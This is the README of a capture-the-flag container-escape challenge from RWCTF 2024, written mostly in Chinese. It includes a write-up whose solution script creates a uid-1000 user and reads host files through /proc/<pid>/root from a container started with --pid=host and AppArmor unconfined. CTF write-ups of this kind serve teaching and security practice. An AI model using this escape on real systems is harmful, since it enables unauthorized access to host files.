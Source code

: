 ## About

这是2024年第六届RWCTF体验赛的容器逃逸题目

## Description of the challenge

Pwn, difficulty:Normal

Escape, Escape, Escape, Escape !

`nc 47.96.250.76 6666`

## Witeup 

这个题目的出题思路来自于这篇[文章][1]。选手成功通过 ssh 成功连接上环境后，会发现这是一个容器环境，而且通过 `ps -aux` 命令能看到这个容器的启动命令：

```bash
1000        1113  0.0  0.0   6188   992 pts/0    S+   06:25   0:00 sleep 10000
1000        1114  0.0  2.3 1180376 23264 pts/0   Sl+  06:25   0:00 docker run --rm -it --pid=host --security-opt=apparmor=unconfined ubuntu bash
```

可以发现该容器共享了 pid， 因此能通过 ps命令看到容器外的进程。此外还有一个 uid 为 1000 的 sleep 进程。 预期解法如下：

```bash
#!/bin/sh

pid=$(pidof sleep)
groupadd -g 1001 user
useradd -m -g 1001 -u 1000 user

su user -c "cat /proc/$pid/root/flag1"

创建一个 uid 为 1000 的用户， 然后通过读 sleep 进程下的 /proc/$PID/root 的文件就能读到 flag
```

## Deploy

题目部署脚本相关可以参考 [deploy][2] 文件夹

## Reference Link

[1]: https://www.anquanke.com/post/id/290540	"一个未公开的容器逃逸方式"
[2]: ./deploy	"题目部署脚本"
